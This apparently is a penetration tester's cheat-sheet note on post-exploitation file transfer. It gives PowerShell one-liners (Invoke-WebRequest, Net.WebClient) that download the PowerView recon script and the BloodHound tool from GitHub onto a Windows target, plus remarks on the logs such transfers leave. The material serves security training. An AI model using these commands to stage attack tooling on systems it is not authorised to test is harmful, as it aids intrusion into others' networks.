 ```yaml
---
tags:
  - PostExploitation
  - DataTransfer
---
```

Keep in mind this is noisy because you will have web requests entering and leaving your network along with file reads and writes, so it `WILL` leave logs. If your transfers are done locally, only host to host, for example, you only leave logs on those hosts, which are a bit harder to sift through and leave less of a trace since we aren't writing ingress/egress logs at the customer boundary.
# PowerShell

#### Download to Host

##### Invoke-WebRequest

We can also use Invoke-WebRequest to download files from web servers on the local network or a network reachable from the Windows target.

```powershell-session
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "C:\PowerView.ps1"
```

##### Net.WebClient

```powershell-session
(New-Object Net.WebClient).DownloadFile("https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip", "Bloodhound.zip")
```
